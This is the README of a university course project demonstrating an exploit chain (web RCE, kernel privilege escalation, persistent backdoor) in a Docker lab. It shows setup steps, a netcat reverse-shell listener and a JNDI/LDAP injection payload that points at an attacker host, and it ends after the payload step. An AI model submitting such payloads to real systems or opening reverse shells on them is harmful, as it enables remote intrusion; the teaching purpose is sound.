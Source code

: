 # A Practical Demonstration of an Exploitation Chain: From Remote Code Execution to Full System Compromise

## Project Overview

This project is developed as part of the **Cybersecurity** course at the **University of Messina**.  
It presents a practical demonstration of an exploitation chain involving:

- **Remote Code Execution (RCE)** via a vulnerable web application
- **Privilege Escalation** through kernel-level exploitation
- **Installation of a persistent backdoor** for post-exploitation access

## Requirements

- **Linux Kernel 5.8.x**  
  (Tested with `5.10.0-19`, default in Ubuntu 21.04)
  You can use `name -r` to check your kernel version
- **Docker** and **Docker Compose**

---

##  Quick Start

### 1. Clone the Repository
```bash
git clone https://github.com/your-username/rce-to-full-compromise-demo.git
cd rce-to-full-compromise-demo
```
### 2. Build and Start the Environment
```bash
docker-compose up --build
```
This will build all containers (attacker, backend, and database) and start the application

### 3. Access the Target Web
Through your browser visit:
```
http://localhost:8080/
```
% This interface contains a vulnerable component through which
% the initial Remote Code Execution (RCE) is performed.
%
### 4. Set Up the Attacker Listener
In a new terminal, open a shell inside the attacker container
```bash
docker exec -it attacker bash
```
Start a Netcat listener to wait for the reverse shell:
```bash
nc -lp 6666
```

This listen for the reverse shell triggered by the exploit.
### Start the Exploit via Web Interface
Using the vulnerable form on the frontend site submit the payload `${jndi:ldap://attacker:1389/Exploit}`
